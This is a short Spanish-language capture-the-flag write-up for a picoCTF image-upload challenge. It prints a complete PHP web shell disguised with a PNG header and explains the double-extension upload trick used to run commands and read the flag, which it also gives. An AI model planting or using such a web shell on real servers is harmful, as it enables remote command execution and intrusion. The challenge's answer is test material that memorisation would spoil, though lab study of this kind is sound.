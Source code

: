 I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

Hints: no hay

## Solución
Hay que crear un script de php para hacer el engaño.
```
PNG  
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
if(isset($_GET['cmd']))  
{  
system($_GET['cmd']);  
}  
?>  
</pre>  
</body>  
</html>
```

El archivo debe tener la extensión `.png.php`
Subirlo al servidor y luego entrar a `/uploads/<nombre>.png.php`.
De ahí hay que ejecutar el comando `find / -name *.txt` para buscar archivos posiblemente importantes. Hay que buscar el archivo que está en `/var/www/html` que tenga caracteres aleatorios y hacerle un `cat`.

`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`
